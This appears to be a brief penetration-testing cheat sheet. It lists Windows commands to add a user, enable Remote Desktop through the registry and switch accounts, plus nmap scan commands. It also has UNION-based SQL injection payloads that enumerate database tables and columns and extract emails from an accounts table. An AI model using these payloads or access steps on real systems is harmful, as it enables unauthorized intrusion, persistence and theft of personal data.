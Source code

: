 
### Windows Commands

1. Create user, the command is 
net user {username} {password}


examples:

```CMD
net user lucas pw1234
```

2. Eable remote desktop service 

```CMD
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

3. Switch user

```CMD
runas /user:lucas cmd
```

### NMAP Command

1. Common ports 
```CMD
nmap -sS -P0  -A -oA 192.168.100.1 -T4 192.168.100.1
```

2. Full ports
```CMD
 nmap -sS -P0 -p- -A -oA 192.168.100.1.log -T4 192.168.100.1
```

### Common SQL Injection Command
	
	192.168.10.1?id=100' and 1=2 UNION SELECT 1,2,user()  --%20

	
	192.168.10.1?id=100' and 1=2 UNION SELECT 1,2, ( SELECT table_name FROM information_schema.tables WHERE table_schema=database() limit 0,1 )--%20


	192.168.10.1?id=100' and 1=2 UNION SELECT 1,2, ( SELECT column_name FROM information_schema.columns WHERE table_name='accounts' limit 0,1 )--%20


	192.168.10.1?id=100' and 1=2 UNION SELECT 1,2, ( SELECT email FROM   accounts limit 0,1 )--%20

### Linux Command

1. base64 decode
```SH
echo "aGVsbG8=" | base64 -d 
```
